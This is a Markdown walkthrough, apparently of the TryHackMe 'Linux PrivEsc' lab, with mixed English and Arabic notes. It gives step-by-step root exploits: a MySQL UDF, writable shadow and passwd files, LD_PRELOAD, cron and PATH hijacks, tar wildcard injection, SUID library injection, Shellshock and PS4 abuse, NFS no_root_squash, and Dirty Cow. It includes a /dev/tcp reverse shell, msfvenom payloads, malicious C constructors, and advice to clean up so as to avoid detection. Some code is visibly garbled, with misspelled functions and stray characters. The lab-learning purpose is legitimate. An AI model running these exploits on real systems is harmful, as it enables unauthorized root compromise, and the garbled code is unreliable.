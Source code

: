 # Linux PrivEsc            

![image](https://github.com/user-attachments/assets/b1fe0a80-97d4-4951-9e6b-885165fc33a5)

[tryhackme_Linux PrivEsc](https://tryhackme.com/room/linuxprivesc?ref=blog.tryhackme.com)


<details>
  <summary>Service Exploits</summary>

## Linux Privilege Escalation via MySQL UDF Exploit

### 🎯 Goal

Gain **root shell access** by exploiting a misconfigured MySQL service (running as root with no password) using a **User Defined Function (UDF)**.

---

### 🔹 Overview

* MySQL is running **as root**.
* The **"root" MySQL user has no password**.
* We'll use a known exploit (`raptor_udf2.c`) to create a MySQL function that executes **system commands as root**.

---

### 🧪 Step-by-Step Instructions

#### 1. 🔧 Go to the exploit directory:

```bash
cd /home/user/tools/mysql-udf
```

#### 2. ⚙️ Compile the UDF exploit code:

```bash
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

* This compiles the `.c` code into a shared object `.so` file.
* `-fPIC` and `-shared` are necessary to load it as a library into MySQL.

#### 3. 🛠️ Connect to MySQL as root (no password):

```bash
mysql -u root
```

#### 4. 📦 Create the custom function in MySQL:

```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

* This loads the `.so` file as a **MySQL plugin**.
* It creates a **new function `do_system()`** that can execute system commands.

#### 5. 🧨 Use the function to gain a root shell:

```sql
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

* Copies `/bin/bash` to `/tmp/rootbash`.
* Sets SUID bit so it runs **with root privileges**.

#### 6. 🚪 Exit MySQL and run root shell:

```bash
exit
/tmp/rootbash -p
```

* `-p` allows bash to run as the **effective UID 0 (root)**.

#### 7. 🧹 Clean Up

```bash
rm /tmp/rootbash
exit
```

* Delete the SUID binary.
* Exit root shell to avoid detection.

---

### ✅ Summary

| Step | Action                                           |
| ---- | ------------------------------------------------ |
| 1    | Compile UDF exploit into `.so` file              |
| 2    | Connect to MySQL (no password)                   |
| 3    | Inject `.so` into MySQL plugin path              |
| 4    | Create and use `do_system()` to copy + SUID bash |
| 5    | Run bash with `-p` for root shell                |
| 6    | Remove `/tmp/rootbash` and exit                  |

🔐 **Always clean up and remove root shells after testing!**

---

🛡️ **Note:** This method only works if:

* MySQL runs as root
* You can connect as root (no password)
* You can write to plugin directory (`/usr/lib/mysql/plugin`)

Used responsibly, this is a great example of **local privilege escalation** via a poorly configured MySQL setup.

  
</details>




<details>
  <summary>Weak File Permissions</summary>

* <details>
    <summary>Readable /etc/shadow</summary>

    ### 1. Readable /etc/shadow (يمكن قراءته)

    * `ls -l /etc/shadow`
        * `-rw-r----- root shadow /etc/shadow` (أي يمكن قرائته)

    * `cat /etc/shadow`
    * (كل اليوزرات بالباسورد تبعها متهاش Hash)

    * **To know type of hash**
        * `john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
    * (يكسر ال hash و يقولك على نوعه)
    
  </details>

* <details>
  <summary>Writable /etc/shadow</summary>

   ### 2. Writable /etc/shadow (يمكن الكتابة)

   * (لو الملف ده ينفع تكتب فيه هتمسح الباسورد بتاع ال root user أو admin user وتحط مكانه باسورد من عندك)

   * `mkpasswd -m sha-512 newpassword`    (ممكن تعمل باسورد بالامر ده)
      

   * `su root`
    * (ادخل الباسورد الجديد)
    * !!!مبروك
  
  </details>



* <details>
     <summary>Writable /etc/passwd</summary>

    ### 3. Writable /etc/passwd (يمكن الكتابة)

   * `openssl passwd frank`
    * (لعمل باسورد جديد)
       * `$1$aBcDeF$gH...`

   * `nano /etc/passwd`
       * `root:x:0:0:root:/root:/bin/bash` (remove `x`)
       * Becomes -> `root::0:0:root:/root:/bin/bash` (الباسورد الان فاضي)
       * `root:$1$aBcDeF$gH...:0:0:root:/root:/bin/bash` ( اكتب الباسورد اللى انت عملته مكان ال `x`)

   * `su root`
    * (اكتب الباسورد الجديد و مبروك عليك!!!)


  </details>




  
</details>



<details>
  <summary>Sudo</summary>


* <details>
     <summary>Shell Escape Sequences</summary>

    * `sudo -l`
    * (عرض الأوامر التي يمكن تشغيلها باستخدام Sudo بدون الحاجه لادخال كلمه مرور)
  

    * **`gtfobins.github.io`**
    * (البحث في gtfobins عن أوامر قابلة للاستغلال)

     
  </details>


* <details>
     <summary>Environment Variables</summary>

   * **Environment Variables:** `(LD_LIBRARY_PATH - LD_PRELOAD)`
    * (يمكن نستغل الـ Environment variables دي)
    * **شرح بسيط:** (عشان أي برنامج يعمل لابد يحتاج الى تحميل مكتبات مشتركه لتنفيذ وظائف معينه أماكن هذه المكتبات `Lib` أو `/usr/lib`)
    * (هذه المتغيرات تتحكم في كيف وأين يبحث البرنامج عن مكتبات نقدر نستغلها علشان نوصل بيها للـ root)


    >[!warning] ⚠️⚠️
    >
    > لو عملنا مكتبه تحتوى على كود خبيث (مثلا كود بيفتح `root shell`)
    >
    > وجعلنا **_`LD_PRELOAD`_** يشير اليها فان :
    >
    > اى برنامج يتم تشغيله بصلاحيات ال ``SUDO`` هيقوم اولا بتحميل المكتبه الخبيثه التى انشاناها مم يعطيك صلاحيات ``ROOT``



   This method works if `LD_LIBRARY_PATH` is inherited. It tells a program to look for shared libraries in a specified directory first, allowing you to hijack a library call.

   1.  **Find a target library:**
       * Use `ldd` to see which shared libraries a program uses.

       ```bash
       ldd /usr/sbin/apache2
       ```

   2.  **Create a malicious shared object:**
       * Compile the C code from `/home/user/tools/sudo/library_path.c`.
       * **Crucially, name the output file the same as one of the libraries used by the target program** (e.g., `libcrypt.so.1`).

       ```bash
       gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
       ```

    3.  **Run the program with `LD_LIBRARY_PATH`:**
        * Execute the program using sudo, setting `LD_LIBRARY_PATH` to the directory containing your malicious library (`/tmp`).

        ```bash
        sudo LD_LIBRARY_PATH=/tmp apache2
        ```
  
    * This should also spawn a root shell because the program loads your malicious `libcrypt.so.1` instead of the real one.

   #### **Further thought / exercise:**

   * Try renaming `/tmp/libcrypt.so.1` to the name of another library used by `apache2` and re-run the exploit. Does it still work? If not, why? How would the        `library_path.c` code need to be changed to make it work with a different library?



  </details>

  
</details>


 



<details>
  <summary>Cron Jobs</summary>


* <details>
     <summary>File Permissions</summary>


    # Cron Jobs - File Permissions (Crontab)

   ### 5) Cron Jobs - File Permissions

   * **Cron Job** هو مهمه مجدوله مع تشغيلها تلقائيا في أوقات محدده
    * الملف اللي فيه المهام المجدوله -> `/etc/crontab`

   ---

   **ex:**

   * `cat /etc/crontab`
    * وجدنا أن الملف ده -> `overwrite.sh`
    * الآن نريد تحديد مكانه

   * `locate overwrite.sh`
       * `/usr/local/bin/overwrite.sh`
    * لاقيناه وهنلاحظ انه قابل للتعديل


   * `nano /usr/local/bin/overwrite.sh`
       * `#!/bin/bash`
       * `bash -i >& /dev/tcp/10.0.47.102/4444 0>&1` the ip of ``tun0``
   
    * هنستبدل محتوى الملف بالكود ده
    * الكود ده بيخلى جهاز الضحيه يتصل بنا عن طريق ``NetCat`` على منفذ ``4444``
    * وبعدين نحفظ الملف ونتاكد انه قابل للتنفيذ ``chmod +x``
  

   * `nc -nvlp 4444`
    * ( الآن بنقوم بالإستماع على ال port 4444 )

   * بمجرد ما الملف يخلص شغله هتكون راجعلنا بالجهاز
   * بصلاحية Root عن طريق -> **Reverse Shell**

   * `whoami` 
       * `root`
    * مبروك

     
   </details>



* <details>
     <summary>PATH Environment Variable</summary>


   # Cron Jobs - PATH Environment Variable

   (overwrite.sh لو مينفعش تكتب جواه)

   ### 6) Cron Jobs - PATH Environment variable

   * هنا بنستغل اعدادات الـ PATH الخاصة بالـ Cron Jobs للوصول على صلاحيات الـ `root`

   * `cat /etc/crontab`
       * `PATH=/home/user:/usr/local/sbin:/...`
       * هنا في مشكله هو بيبحث عن الملفات المجدوله زى overwrite.sh
       * لكن بيبدأ البحث في `/home/user` والملف الاصى موجود فى `/usr/local/bin`
       * ده معناه إن لو عملنا ملف بنفس الاسم
       * في `/home/user` وكتبنا فيه كود خبيث يخلينا نحصل صلاحيات `root`

   * `nano /home/user/overwrite.sh`
       * `#!/bin/bash`
       * `cp /bin/bash /tmp/rootbash`
       * `chmod +s /tmp/rootbash`
       * الكود ده بينقل ال ``bash`` ل ``/tmp/rootbash`` وده ملف احنا عملناهو بعد كده يديلو صلاحيات ``SUID``
       * اى ان المستخدم يمكنه تشغيل ``BASH`` بصلاحيات ``root``
    

   * `chmod +x /home/user/overwrite.sh`
       * نخلي الملف قابل للتنفيذ
       * الآن عند تشغيل الـ cron الملف هيتنفذ ما يؤدي الى
       * إنشاء `rootbash` في `/tmp/`

   * `/tmp/rootbash -p`
       * الأمر ده هيخلي `bash` يحتفظ بصلاحيات ال `root`
       * من بعد تشغيله من قبل مستخدم عادي

   * `whoami`
       * `root`


   > ### ليه استخدمنا ``/tmp`` لتخزين الملف
   >
   - > عشان ده مجلد عام يمكن لاى مستخدم يكتب فيه لذا يمكنك انشاء ملفات بدون صلاحيات
   - > معظم الانظمه تمسح الملفات داخل ``/tmp`` تلقائيا عند اعاده التشغيل مما يساعد فى اخفاء الادله بعد الهجوم

     
   </details>



* <details>
     <summary>Wildcards</summary>

   # Cron Jobs - Wildcards

   (مثلا الملف المجدول ده هي `compress.sh`)
   (`` * `` بتنفذ الاوامر على كل الملفات)

   ### 7) Cron Jobs - WildCards

   * استغلال `tar` الذي يعمل داخل المهمة المجدولة للوصول لصلاحيات `root`. وبما ان الأمر `tar` يتم تشغيله باستخدام `*` فسوف نضيف ملفات أسماءها شبيهه لأوامر `tar` ما يمكننا من عمل Reverse Shell والتحكم بالجهاز.

   * `cat /usr/local/bin/compress.sh`
       * `cd /home/user`
       * `tar czf /tmp/backup.tar.gz *` -> (هينفذ كل الاوامر اللي هنا و يوديها ``/tmp``)

   * `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.0.47.102 LPORT=4444 -f elf -o shell.elf`
       * (على جهازنا، نعمل `shell` عن طريق `msfvenom` باستخدام `shell` لـ linux)

   * `scp shell.elf user@10.10.242.228:/home/user`
       * (بنقوم بنقل الملف لجهاز الضحية)

   * `chmod +x /home/user/shell.elf`
       * (نجعل الملف قابل للتنفيذ)

   * `touch /home/user/--checkpoint=1`
   * `touch /home/user/--checkpoint-action=exec=./shell.elf`

   * `nc -nvlp 4444`
       * (والاستماع على `port 4444` من أجل الحصول على `shell`)

   * `whoami` or `id`
       * `root`



   > ### لماذا ``tar`` كان قابل للاستغلال ؟
   >
   > لان ``tar`` يرى ملفات تحمل اسماء مشابهه لخيارات سطر الاوامر ``--checkpoint=1`` يعتبرها كانها
   > خيارات فعليه او اوامر وليست مجرد اسماء ملفات
   >
   > ### هل يمكن تنفيذ نفس الاستغلال على برامج اخرى ؟
   >
   > نعم مثل :
   >
   > rsync , find , cp , mv , gzip , sort , grep , awk
   >
   > ستجد استغلالهم على gtfobins.io 


     
</details>
  
</details>





<details>
  <summary>SUID / SGID Executables</summary>

* <details>
     <summary>Known Exploits</summary>

   # SUID/SGID Executables - Known Exploits

   ### 8) SUID/SGID Executables - known exploits

   * استغلال البرامج التي تعمل بصلاحيات SUID أو SGID للحصول على صلاحيات الـ `root`.

   * `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`
       * البحث عن ملفات تحمل صلاحيات SUID أو SGID.
       * Example found: `/usr/sbin/exim-4.84-3`

   * search on ``exploitDB`` about **_exim-4.84-3_**
       * on this room Found exploit code at: `/home/user/tools/suid/exim/cve.sh`
       * (هنا في كود الاستغلال اللي وجدناه لبرنامج exim)

   * `chmod +x /home/user/tools/suid/exim/cve.sh`

   * `whoami`
       * `root`
       * (مبروك)


  </details>


* <details>
     <summary>Shared Object Injection</summary>


   # SUID/SGID Executables - Shared Object Injection

   ### 9) SUID/SGID executables - Shared object injection

   * هنا ضمن الملفات التي وجدناها تحمل صلاحيات SUID SGID وجدنا الملف: `/usr/local/bin/suid-so`
   * عند محاولة تشغيله يقوم بالتحميل ولكن لا نعرف ماذا يحدث.

   * `strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`
       * عرض العمليات التي يقوم بها الملف من قبل `strace` لفلترة العمليات التى تخص 
       * فتح ملفات او محاولات البحث عن ملفات غير موجوده
       * Example output showing a missing library: `/home/user/.config/libcalc.so`
       * (وجدنا أن الملف يحاول تحميل مكتبه مشفره ولكنه لا يجدها)

   * `mkdir /home/user/.config`
       * (المجلد الذى به الملف)

   * Create the malicious library file (`libcalc.c`):
       * (قم بعمل هذا الملف فى اى مسار على النظام)
       ```c
       #include <stdio.h>
       #include <stdlib.h>

       void _attribute_((constructor)) init() {
           setid(0);
           setلid(0);
           system("/bin/bash");
       }
       ```

   * `gcc -shared -fPIC -o /home/user/.config/libcalc.so ~/path/to/your/libcalc.c`
       * (تم تحويل الكود من الملف إلى مكتبه مشتركه وإرساله الى المسار المراد)

   * `/usr/local/bin/suid-so`
       * (تشغيل الملف مرة أخرى ولكن هذه المرة سوف يجد المكتبة المحقونة وتكون خبيثة)

   * `whoami`
       * `root`
       * (مبروك يا باشا)


  </details>


* <details>
     <summary>Environment Variables</summary>


   # SUID/SGID Executable - Environment Variables

   ### 10) SUID/SGID executable - Environment variables

   * ضمن الملفات التي وجدناها تحمل صلاحيات SUID/SGID وجدنا الملف: `/usr/local/bin/suid-env`
   * عند تشغيل الملف هنلاحظ إنه سيحاول تشغيل Apache2 بس من غير ما يتحددله مسار كامل لتشغيل هذه الخدمة
   * بـ `service apache2 start` (مسار غير كامل).
     * ده مثال للمسار الكامل ``/usr/sbin/servic apache2 atart``

   * `strings /usr/local/bin/suid-env`
       * This shows the program calls `service apache2 start`.

   * `gcc -o service /home/user/tools/service.c`
       * هنعمل ملف باسم `service` فيه كود خبيث مثل الأكواد الخبيثة السابقة ونستخدم `gcc` لإنشاء ملف تنفيذي.

   * `export PATH=.:$PATH/usr/local/bin/suid-env`
       * ولابد أن يبحث النظام في المسار الحالي (`.`) قبل المسارات الأخرى.
          * المسار الحالى ``/home/user``

   * Now run the SUID executable: `/usr/local/bin/suid-env`
       * It will execute your malicious `./service` file instead of the system's `service` command.

   * `whoami`
       * `root`



  </details>


* <details>
     <summary>Abusing Shell Features (#1)</summary>


   # SUID/SGID Abusing - ShellShock Partners #1

   ### 11) SUID/SGID Abusing - ShellShock Partners #1

   * استغلال ثغرة في إصدارات `Bash` قبل الـ `4.2-048` تكمن باسم `ShellShock Function import`. والتي تسمح للمهاجم بتعريف دالة `Bash` تحمل نفس اسم مسار، تنفيذ برنامج معين
   * ثم تصديرها بحيث تستخدم بدلا من البرنامج الاصلى عند استدعائه.
   * في الملف `/usr/local/bin/suid-env2` له نفس صلاحيات `suid/sgid` مثل الملف السابق لكن الفرق أنه بيشغل المسار كامل.

   * `/bin/bash --version`
       * Output might be something like `4.1.5` -> (إصدار Bash قديم)

   * Define a function with the same name as the command path:
       ```bash
       function /usr/sbin/service { /bin/bash -p; }
       ```

   * Export the function:
       ```bash
       export -f /usr/sbin/service
       ```
       * (هذا الكود سيقوم بتعريف دالة في `bash` تحمل اسم `/usr/sbin/service` و عند تشغيلها . تقوم بفتح `Bash Shell` بصلاحيات محفوظه (`-p`)
       * ثم تصدير الداله مما يجعلها تستخدم بدلا من استخدام ``/usr/sbin/service`` عند استدعاؤها)

   * Run the SUID executable:
       ```bash
       /usr/local/bin/suid-env-2
       ```
       * (تشغيل الملف الذي سيستدعي `service` الذي تم حقنه ليشغل `Bash Shell` ويأخذنا إلى صلاحيات `root`)

   * `whoami`
       * `root`
       * (مبروك!!!)



  </details>


* <details>
     <summary>Abusing Shell Features (#2)</summary>


   # SUID/SGID Executable - Abusing Shell #2

   ### 12) SUID/SGID executable - Abusing Shell #2

   * إستغلال أيضاً إصدارات `Bash` القديمة ولكن لتمكين وضع ال  `Debugging`.
   * و الاستفادة من متغير `PS4` لحقن أمر خبيث يمكن المستخدم من ترقية صلاحياته والحصول على `Root Shell`.

   * Run the SUID executable with custom environment variables:
       ```bash
       env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
       ```
       * (إنشاء نسخة من `Bash` بصلاحيات `Root` ما سيسمح للمهاجم بالحصول على `Root Shell`)

   * Execute the newly created SUID shell:
       ```bash
       /tmp/rootbash -p
       ```
       * (تشغيل الملف الذي أنشأناه بصلاحيات `Root` الذي يحافظ على الصلاحيات `p-`)



  </details>



  
</details>







<details>
  <summary>Passwords & Keys</summary>


* <details>
     <summary>History Files</summary>

   # Passwords & Key - History Files

   ### 13) Passwords & key - history files

   * ممكن يكون المستخدم قد كتب الباسورد بالخطأ وسط أوامر بدلاً من نافذة إدخال كلمة السر.

   * Check the user's history file for credentials:
       ```bash
       cat ~/.history | less
       ```

   * Example of a password found in the history:
       ```bash
       mysql -h somehost.local -u root -pPassword123
       ```

  </details>

* <details>
     <summary>Config Files</summary>

    # Passwords & Keys - Config Files

    ### 14) Passwords & keys - Config files

    * إستغلال وإعدادات الـ `Config files` التي تحتوي على ملفات حساسة.

    * Check a configuration file:
        ```bash
        cat /home/user/.myvpn.oven
        ```
        * The output might reference another file containing credentials: `auth-user-pass /etc/openvpn/auth.txt`
        * (وجدنا هذا المسار)

    * Read the file containing the credentials:
        ```bash
        cat /etc/openvpn/auth.txt
        ```
        * The output could be the username and password:
        ```
        root
        Password123
        ```
        * (مبروك عليك اليوزر والباسورد)

  </details>

* <details>
     <summary>SSH Keyss</summary>

   # Passwords & Keys - SSH Keys

   ### 15) Passwords & keys - SSH keys

   * `ls -la`
       * We found the `.ssh` directory.

   * `ls -l .ssh`
       * Inside, we find a private key, for example: `root_key`
       * (وجدنا الـ private key الخاص بالـ `root`. سنقوم بنقله على جهازنا الـ `kali` الخاص بنا داخل ملف `root-key`)

   * `chmod 600 root_key`
       * (هذا لجعل المفتاح مقروء فقط من قبل المستخدم الحالي مما يمنع `ssh` رفضه)

   * `ssh -i root_key root@10.10.19.152`
       * This logs you in as root.
       * `root#`
       * (مبروك عليك)


  </details>
  
</details>




<details>
  <summary>NFS</summary>


# NFS (Network File System)

### 16) NFS

* عند مشاركه ملف عبر NFS، يمكن للمستخدمين عن بعد إنشاء ملفات على النظام المستضيف وعادة ما يتم تشغيل `root_squashing` لمنح الشخص `root`. يمن امتلاك الملفات على النظام المضيف لكن هنا تم تعطيل هذه الميزه ``هذا الlab``

#### On the Server Machine

* Check the NFS share configuration:
    ```bash
    cat /etc/exports
    ```
    * Look for `no_root_squash` in the output, output for example: `/tmp *(rw,no_root_squashing)`

#### On the Client (Attacker) Machine

1.  **Mount the share:**  ``على جهازى``
    ```bash
    sudo su     
    mkdir /tmp/nfs
    mount -o rw,vers=3 <server_ip>:/tmp /tmp/nfs  #عنوان الماششين او ال lab
    ```
    * يتم ربط ``/tmp/nfs`` فى kali بمجلد ``/tmp`` على الخام او الماشيين 
    * أي ملف يتم إنشاؤه في `/tmp/nfs` على `kali` سيظهر مباشرة في `/tmp` على الخادم.
    *  وبما أن `no_root_squash` مفعل فإن أي ملف ينشئه `root` على `kali` سيحمل ملكية `root` على الخادم (machine)
    *  

1.  **Create a malicious payload:** ``on my device``
    ```bash
    msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
    ```
    * (إنشاء ملف خبيث ووضعه داخل `/tmp/nfs` والذي سيمكننا من عمل `shell` الذي سيعطينا صلاحيات `root` على الخادم)

2.  **Make the payload SUID and executable:** ``on my device``
    ```bash
    chmod +xs /tmp/nfs/shell.elf
    ```
    * (إعطاء الملف الصلاحية اللازمة ليكون `SUID` وجعله قابل للتنفيذ)

#### On the Server Machine

* **Execute the payload:** ``on server``
    ```bash
    /tmp/shell.elf
    ```
    * (تشغيل الملف الخبيث على الخادم)

* **Check your identity:**
    ```bash
    whoami
    ```
    * `root`
    * (مبروك)



> ## ما هو NFS (Network File System) ؟
>
- >  هو بروتوكول يسمح بمشاركه الملفات بين الاجهزه على الشبكه
- > يسمح يسمح للمستخدمسن بتركيب ``(mount)`` مجلدات من جهاز الى اخر كما لو كانت عليه

  # ``المشكله`` 
- > ال ``(root shquashing)`` هى ميزه امان فى ``NFS`` تمنح المستخدم ``ROOT`` على جهاز العميل من ان يكون ``ROOT`` على الخادم
- > عندما تكون هذه الميزه معطله  ``(no_root_squashing)`` فان ``ROOT`` على جهاز العميل يصبح ``ROOT`` على جهاز الخادم مما يسمح بعمل ``PRIVESC``
 
  
</details>





<details>
  <summary>Kernel Exploits</summary>


# Kernel Exploits - Dirty Cow

(Copy-on-write)

### 17) Kernal Exploits - (Dirty Cow)

* اختراق النظام عن طريق استغلال ل ثغره فى ``kernal`` وتحديدا ثغره ``dirty cow`` اللى هى ثغره تصعيد صلاحيات فى ``linux``

* Find potential exploits:
    ```bash
    perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
    ```
 
   * ده اسكربت مكتوب بلغه ``perl`` بيفحص النظام ويعرض قائمه بالثغرات الموجوده فى ال ``kernal`` بحيث تختار واحده منها وتستغلها

* **Exploit Details:**
    * **Vulnerability:** Dirty Cow
    * **CVE:** CVE-2016-5195
    * **Source:** `http://exploit-db.com/exploits/45697`

* **The exploit code**
    * ``/home/user/tools/kernel-exploits/dirtycow/c0w.c``
       * ده كود بيستغل هذه الثغره موجود عندنا على الماشيين بس فى الحياه الواقعيه هتكتبه او تجيبه جاهز
       * المهم ``cow`` هو ميكانزم او اليه بيستخدمها ال ``kernal`` لحمايه البيانات فى الذاكره
       * الكود ده بيستبدل ``/usr/bin/passwd`` المسؤول عن تغيير كلمات المرور بملف ``shell`` يمنح صلاحيات ``root`` و بيعمل نسخه احتياطيه ل ``/usr/bin/passwd``
       * فى ``/tm/bak`` عشان يرجعله بعد الاستغلال
         

* **Compile the exploit:**
    * `gcc -pthread /tools/kernal-exploit/DirtyCow/cow.c -o cow`
       * تحويل الكود لملف تنفيذى لاستخدامه لتنفيذ الثغره 
    

* **Run the exploit:**
    ```bash
    ./cow
    ```

    * تشغيل الملف.
    * الان قام باستبدال ``/usr/bin/passwd`` بملف ``shell``

* **Trigger the payload:**
    ```bash
    /usr/bin/passwd
    ```
    * (تشغيل الملف الآن بعدما استبدل `shell` بملف `/usr/bin/passwd`)

* **Check your identity:**
    ```bash
    whoami
    ```
    * `root`
    * (مبروك)

  
</details>




---

> [!important]
> ### privesc-scripts


* Linpeas.sh
* LinEnum.sh
* Lse.sh

---

### send ``scripts`` to server:

on folder that have ``Linpeas.sh``:

```
python3 -m http.server 8888
```

on server:

```
wget http://<tun0_IP>:8888/Linpeas.sh
```

















